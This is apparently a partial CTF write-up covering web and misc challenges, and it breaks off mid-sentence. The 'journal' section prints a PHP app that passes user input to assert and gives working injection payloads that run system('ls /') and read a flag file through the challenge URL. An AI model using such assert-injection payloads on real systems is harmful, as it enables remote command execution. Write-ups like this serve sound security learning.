



## readme [Web]

As we can see the node image does not have directly vulnerabilities:



I think there is some sort of request smuggling in order to make a second request to the flag.txt since the root in the nginx config is in `root /app/public;`.


## journal [Web]

Description: `dear diary, there is no LFI in this app`

We have the following php file:

```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";

```

The vulnerability can be found here at hacktricks blog:

<https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert>


However it does not work, to work we need to change it a bit:

' or die(system("ls /")) or '

Final payload to get the flag name:

<http://journal.chal.imaginaryctf.org/?file=%27%20or%20die(system(%22ls%20/%22))%20or%20%27>



To get the flag:

' or die(system("cat /flag-cARdaInFg6dD10uWQQgm.txt")) or '

http://journal.chal.imaginaryctf.org/?file=%27%20or%20die(system(%22cat%20/flag-cARdaInFg6dD10uWQQgm.txt%22))%20or%20%27




Flag: ictf{assertion_failed_e3106922feb13b10}


## p2c [Web]

Description: `Welcome to Python 2 Color, the world's best color picker from python code!`

It uses a specific version of flask which is a red flag: `RUN pip install flask==3.0.3`


## bank [misc]

Description: `Can you steal the bank's money?`

```
$ nc 34.135.172.71 40000
[1] Get an instance
[2] Get the flag
Choice: 1
contract address: 0x8e0508E8F8189A9774099aDCC78Fb38d4a626e67
rpc-url: http://34.46.30.131:41766
Wallet private-key: 0xe25351a5d88840ad4d755caf9405abfa60cc60696447c13c549e6184536a8980
Wallet address: 0x4eF4224877EB636264Ca95A2320686486328a150
Secret: 6f574c60e6146e4f9241c4855ea6d6be972bc3409eade0b062793a4c39dafdaf
Please save the provided secret, it will be needed to get the flag

```

```
$ nc 34.135.172.71 40000
[1] Get an instance
[2] Get the flag
Choice: 2
Please enter the hash provided during deployment: 

```

After we generate our information we need to be able to use the contract however i was unable to call with the following:

curl -X POST --data '{"jsonrpc":"2.0","method":"eth_sendTransaction","params":[{"from":"0x323394B10A26a2B2fd5C87D04a1B576BeD286D54" , to":"0x0d4E9CeE18C4c55eeE0EeB958d583803853cBCe1", "data":"0x98e1b410000000000000000000000000000000000000000000000000000000000000000000"}]}' -H "Content-Type: application/json" 34.135.172.71:44514

So i created a python script to connect to it but a ABI was still necessary. ABI is like a json interface for the contract:

docker run -v $(pwd):/sources ethereum/solc:stable -o /sources/output --abi --bin /sources/Bank.sol

After i added the abi i was able to call the methods in the contract and got ischallsolved to return True. However i dont know what they mean by hash of the deployment.

Is kinda sus why they have a getmoney method with a comment and nothing in there: `// Used for deployment, can be safely ignored`. Is there 